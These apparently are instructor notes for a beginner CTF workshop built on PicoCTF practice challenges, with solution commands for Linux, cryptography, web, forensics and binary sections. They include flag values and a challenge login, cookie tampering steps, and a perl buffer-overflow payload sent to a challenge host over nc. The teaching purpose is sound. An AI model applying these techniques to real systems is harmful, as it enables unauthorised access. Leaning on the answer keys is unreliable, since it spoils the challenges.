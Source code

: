 # BSides Vancouver 2025 Workshop
#### Short Link
https://tinyurl.com/y4stu63n
## Title: CTF Crash Course with PicoCTF
#### PicoCTF Registration Link
`https://play.picoctf.org/register`
### Part 1: Navigating the Linux Terminal (10:30 AM)
* Downloading files
  * Pico - Obedient Cat https://play.picoctf.org/practice/challenge/147
    * key commands - `wget` `ls` `cat`
```
wget https://mercury.picoctf.net/static/a5683698ac318b47bd060cb786859f23/flag
ls
cat flag
```   
* Navigation, listing contents, reading files, tab auto-complete
  * Pico - Tab Tab Attack https://play.picoctf.org/practice/challenge/176
    * key commands `wget` `ls` `unzip` `cd` `cat` `./<file_name>`
```
wget https://mercury.picoctf.net/static/659efd595171e4c40378be6a2e9b7298/Addadshashanammu.zip
unzip Addadshashanammu.zip
cd Addadshashanammu/Almurbalarammi/Ashalmimilkala/Assurnabitashpi/Maelkashishi/Onnissiralis/Ularradallaku
./fang-of-haynekhtnamet
```
* Capstone Exercise
  * Pico - Magikarp Ground Mission https://play.picoctf.org/practice/challenge/189
    * key commands `ssh` `pwd` `cat` `ls` `cd`
```
ssh ctf-player@venus.picoctf.net -p <port_number>
ls
cat 1of3.flag.txt
cat instructions-to-2of3.txt
cd /
ls
cat instructions-to-3of3.txt
cd ~
ls
cat 3of3.flag.txt
```
### Part 3: Intro to Cryptography (11:15 AM)
* Base64 encoding
  * Repetitions https://play.picoctf.org/practice/challenge/371
    * key commands `wget` `base64`
```
wget https://artifacts.picoctf.net/c/473/enc_flag
ls
cat enc_flag
base64 -d enc_flag
base64 -d enc_flag | base64 -d
base64 -d enc_flag | base64 -d | base64 -d
base64 -d enc_flag | base64 -d | base64 -d | base64 -d
base64 -d enc_flag | base64 -d | base64 -d | base64 -d | base64 -d
base64 -d enc_flag | base64 -d | base64 -d | base64 -d | base64 -d | base64 -d
```
* ROT13 Cipher
  * Pico 13 https://play.picoctf.org/practice/challenge/62
    * key commands `echo` `tr`
```
echo 'cvpbPGS{abg_gbb_onq_bs_n_ceboyrz}' | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```
* Caesar Cipher
  * Pico Rotation https://play.picoctf.org/practice/challenge/373
    * key commands `wget` `cat`
#### website for solve
`https://cryptii.com/pipes/caesar-cipher`
### Part 4: Beginner's Web App Security (12:45 PM)
* HTTP Source
  * Pico - Inspect HTML https://play.picoctf.org/practice/challenge/275
    * key steps `ctrl + u` to look at webpage source code
  * Pico - Local Authority https://play.picoctf.org/practice/challenge/278
    * key steps `ctrl + u` to look at webpage source code
    * click on login.php
    * click on secure.js
    * the valid login credentials are `admin` and `strongPassword098765`
* Robots.txt
  * Pico - Where are the Robots https://play.picoctf.org/practice/challenge/4
    * key steps: navigate to the `/robots.txt` endpoint on the website
* HTTP Cookies
  * Pico - Power Cookie https://play.picoctf.org/practice/challenge/288
    * key steps: click on the `continue as guest` button
    * access the cookies for the website by using the `web developer tools`
    * edit the `isAdmin` cookie, changing the value from `0` to `1`
    * refresh the web browser
  * Pico - Cookie Monster Secret Recipe https://play.picoctf.org/practice/challenge/469
    * key steps: attempt a login with any username and password
    * access the cookies for the website by using the `web developer tools`
    * copy the value of the `secret recipe` cookie
    * use the following terminal command to get the flag:
```
echo 'cGljb0NURntjMDBrMWVfbTBuc3Rlcl9sMHZlc19jMDBraWVzXzk2RjU4REFCfQ%3D%3D' | base64 -d
```
### Part 5: Intro to Digital Forensics (1:30 PM)
* Picture File Forensics
  * Pico - Information https://play.picoctf.org/practice/challenge/186
    * key commands `wget` `exiftool` `base64`
```
wget https://mercury.picoctf.net/static/b4d62f6e431dc8e563309ea8c33a06b3/cat.jpg
ls
exiftool cat.jpg
echo 'cGljb0NURnt0aGVfbTN0YWRhdGFfMXNfbW9kaWZpZWR9' | base64 -d
``` 
  * Pico - Glory of the Garden https://play.picoctf.org/practice/challenge/44
    * key commands `wget` `strings`
```
wget https://jupiter.challenges.picoctf.org/static/d0e1ffb10fc0017c6a82c57900f3ffe3/garden.jpg
strings garden.jpg
```
* Disk Image Forensics
  * Pico - SleuthKit Apprentice https://play.picoctf.org/practice/challenge/300
    * key commands: `wget` `mkdir` `gunzip` `fsstat` `fls` `icat`
```
mkdir /tmp/sa_your_user_name
cd /tmp/sa_your_user_name
wget https://artifacts.picoctf.net/c/137/disk.flag.img.gz
gunzip disk.flag.img.gz
mmls disk.flag.img
fsstat -o 360448 disk.flag.img
fls -f ext4 -o 360448 -r disk.flag.img
icat -f ext4 -o 360448 -r disk.flag.img 2371
```
### Part 6: Intro to Binary Hacking (2:15 PM)
* Program Logic Flaws
  * Pico RPS https://play.picoctf.org/practice/challenge/293
    * key commands: `wget` `nc` `nano`
```
wget https://artifacts.picoctf.net/c/147/game-redacted.c
nano game-redacted.c
nc saturn.picoctf.net <port_number>
```
We have to figure out how the program decided the computer loses the RPS game, and how the strstr function works in C language
* Buffer Overflow Vulnerabilities
  * Pico Clutter Overflow https://play.picoctf.org/practice/challenge/216
    * key commands: `wget` `nano` `echo` `perl`
```
wget https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall.c
wget https://artifacts.picoctf.net/picoMini+by+redpwn/Binary+Exploitation/clutter-overflow/chall
nano chall.c
echo 'we got the flag!' > flag.txt
perl -e 'print "A" x 264 . "\xef\xbe\xad\xde\x0a"' | ./chall
perl -e 'print "A" x 264 . "\xef\xbe\xad\xde\x0a"' | nc mars.picoctf.net 31890
```
### Appendix: Further Learning Resources
* Linux OS Operations
  * Overthewire - Bandit CTF Game https://overthewire.org/wargames/bandit/
  * HackMyVM - Venus CTF Game https://hackmyvm.eu/venus/
* Python Programming
  * Python Essentials Course https://www.netacad.com/courses/python-essentials-1?courseLang=en-US
  * W3 Schools Python Course https://www.w3schools.com/python/default.asp
* Cryptography
  * CryptoHack Learning Platform https://cryptohack.org/
  * Cryptopals Challenges https://cryptopals.com/
* Web App Hacking
  * Overthewire Natas Web App CTF Game https://overthewire.org/wargames/natas/
  * Portswigger Web Security Academy https://portswigger.net/web-security
* Digital Forensics
  * Cyber Defenders https://cyberdefenders.org/
  * PicoCTF Forensics Challenges https://play.picoctf.org/practice?category=4&page=1
* Binary Hacking
  * Pwn College https://pwn.college/
  * PicoCTF Binary Hacking Challenges https://play.picoctf.org/practice?category=6&page=1
